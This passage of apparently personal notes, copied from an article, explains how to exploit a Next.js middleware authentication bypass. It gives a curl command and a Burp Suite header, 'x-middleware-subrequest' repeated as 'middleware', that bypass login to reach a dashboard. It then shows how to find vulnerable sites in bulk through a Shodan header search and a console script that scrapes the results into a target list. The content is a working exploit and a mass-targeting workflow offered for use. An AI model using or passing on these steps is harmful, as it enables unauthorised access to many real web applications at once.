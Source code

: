 ![[Pasted image 20250409074022.png]]
					example req.

To exploit the vulnerability you can use the following simple curl command. 

It bypasses the authentication and grants access to the dashboard page:

```bash
curl -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" https://target.com/dashboard
```

![[Pasted image 20250409104952.png]]


![[Pasted image 20250409105156.png]]
#### Using Burp Suite

To exploit the vulnerability using Burp Suite, send a request to the protected endpoint in Repeater then add the following header to bypass the middleware and gain access to the dashboard page:

```bash
x-middleware-subrequest: middleware:middleware:middleware:middleware
```

### Mass Hunting using Shodan

For mass hunting the Next.js vulnerability you can follow the approach I use.

Start by going to Shodan and searching for the header x-middleware-rewrite. 

<mark style="background: #FF5582A6;">This will return around 15,440 results with that header present in the response an indicator of middleware usage as shown in the screenshot below:</mark>

![None](https://miro.medium.com/v2/resize:fit:700/1*JkE8KuAn3gi2PFfg2_4uvQ.png)

Next, left click on the "More" option under Facet Analysis, then select the "Domain" filter just like shown in the screenshot:

> x-middleware-rewrite

![None](https://miro.medium.com/v2/resize:fit:700/1*XoGSrIF0mI46zzqBRe5yQg.png)

![None](https://miro.medium.com/v2/resize:fit:700/1*LVYe7H5UUS-ebXRFQuJQtQ.png)

After selecting the Domain filter you'll see a list of all domains matching your search query. 

Now open Developer Tools by pressing F12, go to the Console tab paste the following code and hit Enter:

```javascript
var ipElements=document.querySelectorAll('strong'),ips=[],domains=[];ipElements.forEach(function(e){var t=e.innerHTML.replace(/['"]/g,'').trim();/^(\d{1,3}\.){3}\d{1,3}$/.test(t)?ips.push(t):/^(?!\d+\.)[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$/.test(t)&&domains.push(t)});var dataString='IPs:\n'+ips.join('\n')+'\n\nDomains:\n'+domains.join('\n'),a=document.createElement('a');a.href='data:text/plain;charset=utf-8,'+encodeURIComponent(dataString);a.download='domains.txt';document.body.appendChild(a);a.click();
```
